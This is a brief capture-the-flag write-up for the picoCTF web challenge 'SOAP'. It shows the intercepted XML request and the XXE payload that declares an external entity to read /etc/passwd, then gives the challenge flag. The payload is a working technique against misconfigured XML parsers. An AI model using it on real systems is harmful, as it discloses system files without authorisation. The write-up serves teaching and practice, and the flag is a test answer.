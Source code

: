 <h1>SOAP</h1>
<h3>Description</h3>
<label>The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?<a href='http://saturn.picoctf.net:54365/'>
Web Portal</a></label>
<h3>Solution</h3>
<label>XXE injection, Payload</label>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<data><ID>1</ID></data>
```
<label>Intercept request lalu ganti jadi</label>
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
    <!ENTITY xxe  SYSTEM "file:///etc/passwd">
]>
<data><ID>&xxe;</ID></data>
```
<h3>Flag</h3>
<pre>
picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
</pre>

